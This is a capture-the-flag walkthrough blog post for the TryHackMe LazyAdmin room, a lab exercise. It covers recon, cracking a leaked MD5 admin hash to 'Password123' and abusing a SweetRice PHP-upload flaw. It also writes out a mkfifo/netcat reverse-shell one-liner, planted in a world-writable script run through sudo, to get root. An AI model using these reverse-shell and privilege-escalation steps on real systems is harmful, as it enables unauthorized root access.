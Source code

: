 ```yaml
---
layout: post
title: TryHackMe - LazyAdmin
date: 2023-04-23 17:24
category: ctf
author: akymos
tags: [ctf, TryHackMe]
toc: true
anchor: true
published: true
---
```


# Room info
- **Name**: LazyAdmin
- **Link**: [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin){:target="_blank"}
- **Subscription**: Free
- **Difficulty**: Easy
- **Description**: Easy linux machine to practice your skills

## Questions
1. What is the user flag?
2. What is the root flag?

# Step 0 - Recon
## Nmap
``` bash
$ nmap -sC -sV 10.10.26.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 21:28 CEST
Nmap scan report for 10.10.26.136
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.88 seconds
````
Nice, port 80 is open, but nothing interesting on it, only the default Apache page.
![LazyAdmin - Apache default page](/assets/images/ctf-lazyadmin/01.png){:class="post-image"}

## Gobuster
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136 -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.26.136/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```
We have a 'strange' directory: `/content`. Let's check it out.
![LazyAdmin - /content directory](/assets/images/ctf-lazyadmin/02.png){:class="post-image"}

## Gobuster on /content
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136/content -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.26.136/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.26.136/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.26.136/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.26.136/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/js/]
```
Directory index is enabled. `/as` contains the admin panel of the website, but we don't have any credentials (YET).
The directory `/inc` contains another folder: `/inc/mysql_backup`. Inside it, we have a file called `mysql_bakup_20191129023059-1.5.1.sql`. Let's download it and check it out.
```php
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
......
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
......
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```
We have found the credentials for the admin panel: `manager:42f749ade7f9e195bf475f37a44cafcb` (MD5 hash).

## John the Ripper
``` bash
$ echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt && john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (?)     
1g 0:00:00:00 DONE (2023-04-24 21:59) 100.0g/s 3379Kp/s 3379Kc/s 3379KC/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
So the admin account is:
- Username: `manager`
- Password: `Password123`
![LazyAdmin - Admin panel](/assets/images/ctf-lazyadmin/03.png){:class="post-image"}

## Exploit
In this version of SweetRice, there is a vulnerability that allows us to use a PHP shell. We can use it to get a reverse shell.
[https://www.exploit-db.com/exploits/40700](https://www.exploit-db.com/exploits/40700){:target="_blank"}

# Question 1 - What is the user flag?
```sh
$ nc -lnvp 9001
listening on [any] 9001 ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat /home/itguy/user.txt
THM{***************************}
````
The user flag is: `THM{***************************}`

# Question 2 - What is the root flag?
## Privilege escalation
```sh
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -lha /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ # We can modify the file /etc/copy.sh
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f" > /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f

$ sudo /usr/bin/perl /home/itguy/backup.pl
```

## Root.txt
```sh
$ nc -lnvp 9002
listening on [any] 9002 ...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{***************************}
```
The root flag is: `THM{***************************}`